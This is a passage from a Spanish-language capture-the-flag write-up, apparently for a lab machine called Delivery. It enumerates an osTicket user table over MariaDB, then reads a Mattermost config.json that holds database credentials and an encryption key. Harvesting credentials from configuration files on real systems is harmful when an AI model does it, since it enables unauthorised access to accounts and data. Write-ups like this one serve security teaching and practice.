 Sin embargo, no parece tener nada interesante, excepto los **nombres de usuario** que parecen ser **hashes**, pero lamentablemente esto no nos lleva a nada.

```sql
MariaDB [osticket]> select * from ost_user ;
+----+--------+------------------+--------+----------------------------------+---------------------+---------------------+
| id | org_id | default_email_id | status | name                             | created             | updated             |
+----+--------+------------------+--------+----------------------------------+---------------------+---------------------+
|  1 |      1 |                1 |      0 | osTicket Support                 | 2020-12-26 09:14:00 | 2020-12-26 09:14:00 |
|  2 |      0 |                2 |      0 | bob                              | 2021-01-05 03:26:08 | 2021-01-05 03:26:08 |
|  3 |      0 |                3 |      0 | 9ecfb4be145d47fda0724f697f35ffaf | 2021-01-05 06:06:28 | 2021-01-05 06:06:28 |
|  4 |      0 |                4 |      0 | c3ecacacc7b94f909d04dbfd308a9b93 | 2021-01-05 06:06:39 | 2021-01-05 06:06:39 |
|  5 |      0 |                5 |      0 | ff0a21fc6fc2488195e16ea854c963ee | 2021-01-05 06:06:45 | 2021-01-05 06:06:45 |
|  6 |      0 |                6 |      0 | 5b785171bfb34762a933e127630c4860 | 2021-01-05 06:06:46 | 2021-01-05 06:06:46 |
|  7 |      0 |                7 |      0 | madlies                          | 2024-08-15 18:17:25 | 2024-08-15 18:17:25 |
+----+--------+------------------+--------+----------------------------------+---------------------+---------------------+
```
##### DB Mattermost

Por el lado de **MatterMost**, también se encuentra un archivo de **configuración** con **credenciales** dentro de la carpeta `/opt/mattermost/config`. Por lo tanto, se puede realizar el mismo proceso para enumerar la **base de datos**.

```json
maildeliverer@Delivery:/opt/mattermost/config$ cat config.json 
...
   "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
        "MaxOpenConns": 300,
        "Trace": false,
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
        "QueryTimeout": 30,
        "DisableDatabaseSearch": false
    },
...
```
